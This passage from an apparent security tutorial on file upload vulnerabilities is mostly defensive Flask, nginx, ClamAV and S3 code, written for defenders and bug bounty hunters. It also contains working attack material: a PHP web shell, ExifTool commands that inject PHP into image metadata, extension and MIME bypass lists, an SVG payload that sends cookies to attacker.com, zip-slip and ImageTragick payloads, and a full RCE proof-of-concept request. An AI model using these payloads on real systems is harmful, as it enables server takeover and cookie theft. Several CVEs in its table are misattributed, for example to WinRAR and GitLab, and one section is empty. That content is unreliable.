        location ~* \.(php|php3|php4|php5|php7|phtml|phar|asp|aspx|jsp|cgi|sh|py)$ {
            deny all;
            return 403;
        }

        # Force download for all files
        add_header Content-Disposition "attachment";

        # Set X-Content-Type-Options to prevent MIME sniffing
        add_header X-Content-Type-Options "nosniff";

        try_files $uri =404;
    }
}
```

---

### 4. File Size Limits & Rate Limiting

```python
from flask import Flask, request, jsonify
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import os

app = Flask(__name__)

# Global max content length
app.config['MAX_CONTENT_LENGTH'] = 5 * 1024 * 1024  # 5 MB

# Rate limiting
limiter = Limiter(
    app=app,
    key_func=get_remote_address,
    default_limits=["200 per day", "50 per hour"]
)

@app.route('/api/upload', methods=['POST'])
@limiter.limit("10 per minute")
def upload_file():
    if 'file' not in request.files:
        return jsonify({"error": "No file"}), 400

    file = request.files['file']

    # Additional manual size check
    file.seek(0, os.SEEK_END)
    file_size = file.tell()
    file.seek(0)

    if file_size > 5 * 1024 * 1024:
        return jsonify({"error": "File too large"}), 413

    if file_size == 0:
        return jsonify({"error": "Empty file"}), 400

    # ... rest of validation
    return jsonify({"message": "OK"}), 200

@app.errorhandler(413)
def request_entity_too_large(e):
    return jsonify({"error": "File exceeds maximum allowed size of 5MB"}), 413

@app.errorhandler(429)
def rate_limit_exceeded(e):
    return jsonify({"error": "Too many upload requests. Please slow down."}), 429
```

---

### 5. Antivirus Scanning with ClamAV

```python
import pyclamd
from flask import Flask, request, jsonify

app = Flask(__name__)

def scan_file_with_clamav(file_data):
    """
    Scan file content for malware using ClamAV.
    Returns (is_clean, threat_name)
    """
    try:
        cd = pyclamd.ClamdNetworkSocket(host='127.0.0.1', port=3310)
        if not cd.ping():
            # ClamAV unavailable — fail open or closed based on policy
            return False, "ClamAV unavailable"

        result = cd.scan_stream(file_data)
        if result is None:
            return True, None  # Clean
        else:
            threat = list(result.values())[0][1]
            return False, threat

    except Exception as e:
        return False, str(e)

@app.route('/api/upload', methods=['POST'])
def secure_upload():
    file = request.files.get('file')
    if not file:
        return jsonify({"error": "No file"}), 400

    file_data = file.read()

    # Scan for malware
    is_clean, threat = scan_file_with_clamav(file_data)
    if not is_clean:
        app.logger.warning(f"Malware detected in upload: {threat}")
        return jsonify({"error": "Malware detected in file", "threat": threat}), 403

    # Proceed with validated upload
    return jsonify({"message": "File is clean and uploaded"}), 200
```

---

### 6. Strip EXIF Metadata Before Saving

```python
from PIL import Image
import io
import os

def strip_exif_and_save(file_data, save_path, image_format):
    """
    Re-encode image to strip all metadata (EXIF, XMP, IPTC).
    Also validates that the file is a real image.
    """
    try:
        # Open image — raises exception if not a valid image
        img = Image.open(io.BytesIO(file_data))

        # Convert to RGB if needed (removes alpha channel issues)
        if img.mode in ('RGBA', 'P'):
            img = img.convert('RGB')

        # Save without metadata
        output = io.BytesIO()
        img.save(output, format=image_format, optimize=True)
        output.seek(0)

        # Write clean image to disk
        with open(save_path, 'wb') as f:
            f.write(output.read())

        return True

    except Exception as e:
        return False

# Usage in upload route
# strip_exif_and_save(file_data, '/secure/uploads/abc123.jpg', 'JPEG')
```

---

### 7. Enforce IMDSv2 & Cloud Storage Best Practices (AWS S3)

```python
import boto3
import uuid
from botocore.exceptions import ClientError

s3 = boto3.client('s3')
BUCKET_NAME = 'my-secure-uploads'

def upload_to_s3_securely(file_data, original_extension, user_id):
    """
    Upload file to S3 with:
    - Random key name
    - Server-side encryption
    - ACL: private (no public access)
    - Content-Type locked
    """
    safe_key = f"uploads/{user_id}/{uuid.uuid4().hex}.{original_extension}"

    MIME_MAP = {
        'jpg': 'image/jpeg', 'jpeg': 'image/jpeg',
        'png': 'image/png',  'gif': 'image/gif',
        'pdf': 'application/pdf'
    }
    content_type = MIME_MAP.get(original_extension, 'application/octet-stream')

    try:
        s3.put_object(
            Bucket=BUCKET_NAME,
            Key=safe_key,
            Body=file_data,
            ContentType=content_type,
            ServerSideEncryption='AES256',  # Encrypt at rest
            # ACL='private' is now default with S3 Block Public Access
            Metadata={'uploaded_by': str(user_id)}
        )
        return safe_key

    except ClientError as e:
        raise Exception(f"S3 upload failed: {e}")

def generate_presigned_url(s3_key, expiry_seconds=300):
    """Generate a temporary, signed download URL instead of public access."""
    url = s3.generate_presigned_url(
        'get_object',
        Params={
            'Bucket': BUCKET_NAME,
            'Key': s3_key,
            'ResponseContentDisposition': 'attachment'  # Force download
        },
        ExpiresIn=expiry_seconds
    )
    return url
```

---

### 8. Complete Secure Implementation

```python
#!/usr/bin/env python3
"""
Secure File Upload — Complete Defense-in-Depth Implementation
Combines: extension allowlist, magic bytes, MIME, size limit,
          AV scan, metadata strip, random filename, secure storage.
"""

import os
import uuid
import hashlib
import magic
import logging
from flask import Flask, request, jsonify, abort, send_file
from PIL import Image
import io
import re

# ============================================================
# Configuration
# ============================================================
app = Flask(__name__)
logging.basicConfig(level=logging.INFO)
logger = logging.getLogger(__name__)

UPLOAD_DIR         = '/var/app/uploads/secure/'
MAX_FILE_SIZE      = 5 * 1024 * 1024   # 5 MB
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf'}
ALLOWED_MIME_TYPES = {
    'image/png':       b'\x89PNG\r\n\x1a\n',
    'image/jpeg':      b'\xff\xd8\xff',
    'image/gif':       b'GIF89a',
    'application/pdf': b'%PDF-',
}
IMAGE_FORMATS = {
    'image/png':  'PNG',
    'image/jpeg': 'JPEG',
    'image/gif':  'GIF',
}

os.makedirs(UPLOAD_DIR, exist_ok=True)

# ============================================================
# Validation Helpers
# ============================================================

def get_extension(filename):
    if '.' not in filename:
        return None
    return filename.rsplit('.', 1)[1].lower()

def validate_extension(filename):
    ext = get_extension(filename)
    return ext in ALLOWED_EXTENSIONS if ext else False

def validate_magic_bytes(file_data, mime_type):
    expected = ALLOWED_MIME_TYPES.get(mime_type)
    if not expected:
        return False
    return file_data[:len(expected)] == expected

def validate_real_mime(file_data, claimed_mime):
    detected = magic.from_buffer(file_data[:2048], mime=True)
    return detected == claimed_mime

def sanitize_image(file_data, mime_type):
    """Re-encode image to strip metadata and validate content."""
    fmt = IMAGE_FORMATS.get(mime_type)
    if not fmt:
        return file_data  # Non-image (e.g., PDF) — skip re-encode
    img = Image.open(io.BytesIO(file_data))
    if img.mode in ('RGBA', 'P'):
        img = img.convert('RGB')
    out = io.BytesIO()
    img.save(out, format=fmt, optimize=True)
    out.seek(0)
    return out.read()

def generate_filename(ext):
    return f"{uuid.uuid4().hex}.{ext}"

# ============================================================
# Upload Route
# ============================================================

@app.route('/api/upload', methods=['POST'])
def secure_upload():
    if 'file' not in request.files:
        return jsonify({"error": "No file provided"}), 400

    file = request.files['file']

    if not file.filename or file.filename.strip() == '':
        return jsonify({"error": "No filename"}), 400

    # 1. Extension allowlist
    if not validate_extension(file.filename):
        logger.warning(f"Blocked extension: {file.filename} from {request.remote_addr}")
        return jsonify({"error": "File extension not allowed"}), 403

    # 2. Read data
    file_data = file.read(MAX_FILE_SIZE + 1)
    if len(file_data) > MAX_FILE_SIZE:
        return jsonify({"error": "File too large (max 5MB)"}), 413
    if len(file_data) == 0:
        return jsonify({"error": "Empty file"}), 400

    # 3. MIME type from header
    claimed_mime = file.content_type
    if not claimed_mime or claimed_mime not in ALLOWED_MIME_TYPES:
        return jsonify({"error": "MIME type not allowed"}), 403

    # 4. Magic bytes check
    if not validate_magic_bytes(file_data, claimed_mime):
        logger.warning(f"Magic bytes mismatch from {request.remote_addr}")
        return jsonify({"error": "File signature does not match declared type"}), 403

    # 5. Deep MIME detection with libmagic
    if not validate_real_mime(file_data, claimed_mime):
        logger.warning(f"Real MIME mismatch from {request.remote_addr}")
        return jsonify({"error": "File content validation failed"}), 403

    # 6. Strip metadata (images only)
    try:
        clean_data = sanitize_image(file_data, claimed_mime)
    except Exception as e:
        logger.error(f"Image sanitization failed: {e}")
        return jsonify({"error": "File processing failed"}), 400

    # 7. Compute hash for deduplication / integrity
    file_hash = hashlib.sha256(clean_data).hexdigest()

    # 8. Generate safe random filename
    ext = get_extension(file.filename)
    safe_name = generate_filename(ext)
    save_path = os.path.join(UPLOAD_DIR, safe_name)

    # 9. Save file
    with open(save_path, 'wb') as f:
        f.write(clean_data)
    os.chmod(save_path, 0o644)

    logger.info(f"Upload OK: {safe_name} | SHA256: {file_hash} | IP: {request.remote_addr}")

    return jsonify({
        "message": "Upload successful",
        "file_id": safe_name,
        "sha256": file_hash,
        "size": len(clean_data)
    }), 200

# ============================================================
# Secure File Serving Route
# ============================================================

@app.route('/api/files/<file_id>', methods=['GET'])
def serve_file(file_id):
    # Strict validation of file_id format
    if not re.match(r'^[a-f0-9]{32}\.[a-z]{2,4}$', file_id):
        abort(400)

    file_path = os.path.join(UPLOAD_DIR, file_id)

    if not os.path.isfile(file_path):
        abort(404)

    ext = file_id.rsplit('.', 1)[1].lower()
    if ext not in ALLOWED_EXTENSIONS:
        abort(403)

    return send_file(file_path, as_attachment=True, download_name=file_id)

# ============================================================
# Error Handlers
# ============================================================

@app.errorhandler(413)
def too_large(e):
    return jsonify({"error": "File too large"}), 413

@app.errorhandler(403)
def forbidden(e):
    return jsonify({"error": "Forbidden"}), 403

@app.errorhandler(404)
def not_found(e):
    return jsonify({"error": "Not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)
```

---

### Defense-in-Depth Checklist

- [x] Implement strict extension allowlist (never use blocklists alone)
- [x] Validate MIME types AND magic bytes / file signatures server-side
- [x] Generate random server-side filenames (never trust `originalname`)
- [x] Store uploads outside the webroot or disable execution in upload dirs
- [x] Enforce file size limits and rate limiting per user/IP
- [x] Scan uploads with antivirus/malware detection (ClamAV, YARA)
- [x] Strip metadata (EXIF, XMP, IPTC) via image re-encoding
- [x] Use `Content-Disposition: attachment` when serving user files
- [x] Apply least-privilege permissions (`644` for files, `755` for dirs)
- [x] Log all upload attempts including IP, filename, MIME, and hash
- [x] Use cloud storage (S3, GCS) with Block Public Access and IAM policies
- [x] Disable dangerous server modules in upload dirs (`php_flag engine off`)
- [x] Implement CSP headers to mitigate XSS from uploaded SVG/HTML
- [x] Block `.htaccess` and `.user.ini` uploads explicitly
- [x] Validate archives (zip, tar) for path traversal before extraction

---

## File Upload Testing Tools

| Tool | Description | Link |
|------|-------------|------|
| **Burp Suite** | Intercept and modify `Content-Type`, `filename`, and test bypasses | [portswigger.net](https://portswigger.net/burp) |
| **ffuf** | Fuzz upload endpoints, extensions, and parameters | [GitHub](https://github.com/ffuf/ffuf) |
| **ExifTool** | Read/write metadata, inject payloads into image EXIF headers | [exiftool.org](https://exiftool.org/) |
| **file** (Linux) | Verify actual magic bytes and file type on disk | Built-in |
| **UploadScanner** | Burp extension for automated file upload security testing | [GitHub](https://github.com/portswigger/upload-scanner) |
| **Nikto** | Scan for insecure upload directories and server misconfigurations | [GitHub](https://github.com/sullo/nikto) |
| **YARA** | Write custom rules to detect malicious patterns in uploaded files | [GitHub](https://github.com/VirusTotal/yara) |
| **ClamAV** | Open-source antivirus engine for real-time upload scanning | [clamav.net](https://www.clamav.net/) |

### Tool Usage Examples

**ffuf — Extension Fuzzing:**

```bash
# Create extensions wordlist
cat > extensions.txt << 'EOF'
php
php5
php4
php3
phtml
phar
asp
aspx
jsp
shtml
cgi
EOF

# Fuzz file extensions
ffuf -u https://app.com/upload \
  -X POST \
  -H "Cookie: session=abc123" \
  -F "file=@shell.FUZZ;type=image/jpeg" \
  -w extensions.txt \
  -mc 200,302 \
  -v
```

**ExifTool — Payload Injection into Image Metadata:**

```bash
# Inject PHP payload into JPEG EXIF comment field
exiftool -Comment='<?php system($_GET["c"]); ?>' image.jpg

# Inject into multiple fields
exiftool \
  -Author='<?php phpinfo(); ?>' \
  -Comment='<?php system($_GET["c"]); ?>' \
  -ImageDescription='<?php echo file_get_contents("/etc/passwd"); ?>' \
  image.jpg

# Rename to PHP extension and upload
cp image.jpg shell.php

# Verify injection
exiftool shell.php | grep -E "Comment|Author|Description"
```

**Burp Suite — Manual Bypass Steps:**

```text
1. Intercept the upload request in Burp Proxy
2. Send to Repeater (Ctrl+R)
3. Modify the filename:
   Before: filename="image.jpg"
   After:  filename="shell.php"
4. Modify Content-Type:
   Before: Content-Type: application/x-php
   After:  Content-Type: image/jpeg
5. Add magic bytes at start of body:
   Before: <?php system($_GET['c']); ?>
   After:  GIF89a<?php system($_GET['c']); ?>
6. Send request and note the file path in the response
7. Access the uploaded file to confirm execution
```

**ClamAV — Manual File Scan:**

```bash
# Install ClamAV
apt-get install clamav clamav-daemon

# Update virus definitions
freshclam

# Scan a single file
clamscan /path/to/uploaded/shell.php

# Scan entire upload directory
clamscan -r /var/app/uploads/

# Scan and move infected files
clamscan -r --move=/quarantine/ /var/app/uploads/
```

---

## File Upload in Bug Bounty — Tips & Tricks

### Where to Look

1. **Profile / Avatar Uploads** — Often weakly validated, renders on other users pages
2. **Document / CSV Importers** — May allow `.html`, `.xml`, or trigger parsers
3. **API `/upload` Endpoints** — Check for missing authentication and validation
4. **Chat / File Sharing Features** — May render HTML or SVG inline to other users
5. **Image Processing Pipelines** — ImageMagick, Ghostscript, FFmpeg vulnerabilities
6. **Backup / Restore Features** — Often accept `.zip` or `.tar` archives
7. **CMS Media Libraries** — WordPress, Drupal, Joomla plugin upload misconfigurations
8. **Email Attachment Handlers** — May parse malicious MIME or attachment structures
9. **Resume / Portfolio Upload** — Accepts `.docx`, `.pdf`, `.ppt`
10. **Import from URL** — Chain with SSRF to bypass file source restrictions

### Recon Tips for File Upload Endpoints

```bash
# Find upload endpoints with ffuf
ffuf -u https://app.com/FUZZ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -mc 200,301,302 \
  -e .php,.aspx,.jsp

# Search JS files for upload endpoints
grep -r "upload\|multipart\|FormData" app.js bundle.js --include="*.js"

# Check network tab in DevTools for XHR upload calls
# Look for: Content-Type: multipart/form-data

# Search API documentation (Swagger/OpenAPI)
# Look for: "in": "formData", "type": "file"
```

### Bug Bounty Payloads Cheat Sheet

```text
# === Extension Bypasses ===
shell.php
shell.php5
shell.php4
shell.php3
shell.phtml
shell.phar
shell.PHP
shell.pHp
shell.php.jpg
shell.php;.jpg
shell.php%00.jpg
shell.php%2500.jpg

# === MIME Type Spoofing ===
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
Content-Type: application/octet-stream

# === Magic Bytes (add before payload) ===
GIF89a               (GIF)
\xFF\xD8\xFF\xE0     (JPEG)
\x89PNG\r\n\x1a\n    (PNG)
%PDF-                (PDF)

# === Server Config Overrides ===
# .htaccess content:
AddType application/x-httpd-php .jpg

# .user.ini content:
auto_prepend_file = shell.jpg

# === SVG XSS Payloads ===
<svg onload="alert(document.domain)"/>
<svg><script>alert(1)</script></svg>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>document.location='https://attacker.com/?c='+document.cookie</script>
</svg>

# === Zip Slip Path ===
../../../var/www/html/shell.php
../../../etc/cron.d/revshell

# === ImageMagick / GraphicsMagick ===
push graphic-context
viewbox 0 0 640 480
fill 'url(https://x.x/x"|id > /tmp/pwned")'
pop graphic-context
```

### Writing a Good File Upload Bug Bounty Report

```text
## Title
Unrestricted File Upload in [Feature] at [Endpoint] leads to Remote Code Execution

## Summary
The file upload endpoint at `POST /api/upload` fails to validate file extensions,
MIME types, and file content. By uploading a PHP web shell disguised as a JPEG
image, an attacker can achieve Remote Code Execution on the underlying server.

## Severity
Critical — CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H (9.9)

## Steps to Reproduce

1. Log in to the application at https://app.com/login
2. Navigate to https://app.com/profile/settings
3. Click "Upload Profile Picture"
4. Intercept the upload request using Burp Suite
5. Set the filename to `shell.php` and Content-Type to `image/jpeg`
6. Set the body to: GIF89a<?php system($_GET['c']); ?>
7. Forward the request — server responds with:
   {"path": "/uploads/shell.php"}
8. Access: https://app.com/uploads/shell.php?c=id
9. Observe: uid=33(www-data) gid=33(www-data) groups=33(www-data)

## Proof of Concept

Request:
POST /api/upload HTTP/1.1
Host: app.com
Cookie: session=YOUR_SESSION
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

GIF89a<?php system($_GET['c']); ?>
------Boundary--

Response:
{"path": "/uploads/shell.php"}

Execution:
GET /uploads/shell.php?c=id HTTP/1.1
Host: app.com

uid=33(www-data) gid=33(www-data) groups=33(www-data)

## Impact

- Remote Code Execution as the web server user (www-data)
- Full filesystem read/write access
- Access to database credentials in config files
- Lateral movement to internal services
- Potential full server and infrastructure compromise

## Remediation

1. Implement strict extension allowlist (png, jpg, gif only)
2. Validate file content via magic bytes and libmagic
3. Rename all uploaded files to random UUIDs on the server
4. Store uploaded files outside the webroot directory
5. Disable PHP execution in the uploads directory via .htaccess / Nginx config
6. Implement Content-Security-Policy headers
```

> A basic file upload bypass might rate as **Medium** (~$500), but successful **RCE via web shell upload** consistently rates as **Critical** with bounties ranging from **$5,000 to $50,000+**.
{: .prompt-tip }

---

## Notable File Upload CVEs

| CVE | Application | Impact | CVSS |
|-----|-------------|--------|------|
| CVE-2015-2348 | PHP `move_uploaded_file()` | Null byte truncation bypass | 7.5 |
| CVE-2019-11043 | PHP-FPM + Nginx | Path info misparse leading to RCE | 9.8 |
| CVE-2021-41773 | Apache HTTP Server | Path traversal and code execution | 7.5 |
| CVE-2016-3714 | ImageMagick (ImageTragick) | Ghostscript RCE via crafted image | 9.8 |
| CVE-2021-21315 | GitLab | Unrestricted file upload in project import | 9.9 |
| CVE-2020-11738 | WordPress Duplicator Plugin | Arbitrary file write | 9.8 |
| CVE-2023-28252 | WinRAR | ACE archive extraction path traversal | 7.8 |
| CVE-2021-3129 | Laravel Ignition | File upload deserialization RCE | 9.8 |
| CVE-2022-22965 | Spring Framework (Spring4Shell) | Data binding bypass leading to RCE | 9.8 |
| CVE-2023-24488 | Citrix ADC / Gateway | XSS via file upload | 6.1 |

---

## File Upload Attack Decision Tree



---

## Labs & Practice Resources

### Free Labs

1. **[PortSwigger Web Security Academy — File Upload Labs](https://portswigger.net/web-security/file-upload)**
   - Remote code execution via web shell upload
   - Web shell upload via Content-Type restriction bypass
   - Web shell upload via extension blacklist bypass
   - Web shell upload via obfuscated file extension
   - Web shell upload via path traversal
   - Remote code execution via polyglot web shell upload
   - Web shell upload via race condition

2. **[TryHackMe — File Upload Vulnerabilities Room](https://tryhackme.com/room/fileupload)**
   - Guided walkthrough with hands-on challenges

3. **[OWASP WebGoat](https://owasp.org/www-project-webgoat/)**
   - Insecure file upload exercises in a safe local environment

4. **[DVWA — Damn Vulnerable Web Application](https://github.com/digininja/DVWA)**
   - File upload module with Low, Medium, and High security levels

5. **[PentesterLab — File Upload Exercises](https://pentesterlab.com/)**
   - Real CVE-based upload exploitation challenges

### Paid / CTF Platforms

6. **[HackTheBox](https://www.hackthebox.com/)** — Machines with upload misconfigurations (e.g., Bastard, Upload)
7. **[BugBountyHunter.com](https://www.bugbountyhunter.com/)** — Realistic file upload lab scenarios
8. **[Root-Me](https://www.root-me.org/)** — File upload challenges in the web application category
9. **[PentesterLab Pro](https://pentesterlab.com/pro)** — Advanced upload exploitation with code review

---

## Conclusion

Insecure file upload remains one of the most **direct and high-impact** attack vectors in modern web security. A single misconfigured upload endpoint can bypass firewalls, WAFs, and authentication controls, handing an attacker immediate code execution rights on the server.

### Key Takeaways

| For Developers | For Pentesters |
|---------------|---------------|
| Always use allowlists for extensions and MIME types | Test every upload endpoint systematically |
| Validate magic bytes and content — never trust headers | Bypass client-side checks first with curl or Burp |
| Rename all files to random UUIDs on the server | Try double extensions, null bytes, and case tricks |
| Store uploads outside webroot or disable execution | Always try uploading `.htaccess` and `.user.ini` |
| Enforce size limits and rate limiting | Chain with LFI, SSRF, or image processing libraries |
| Never trust `originalname` or `Content-Type` header | Test race conditions for time-of-check flaws |
| Strip EXIF metadata by re-encoding images | Escalate to reverse shell if RCE is confirmed |
| Apply restrictive file permissions (`644` / `755`) | Document every bypass step clearly in your report |

---

## References

- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [ImageTragick — CVE-2016-3714](https://imagetragick.com/)
- [Zip Slip Vulnerability — Snyk Research](https://snyk.io/research/zip-slip-vulnerability)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Bug Bounty Bootcamp — File Upload Chapter](https://nostarch.com/bug-bounty-bootcamp)

---

````
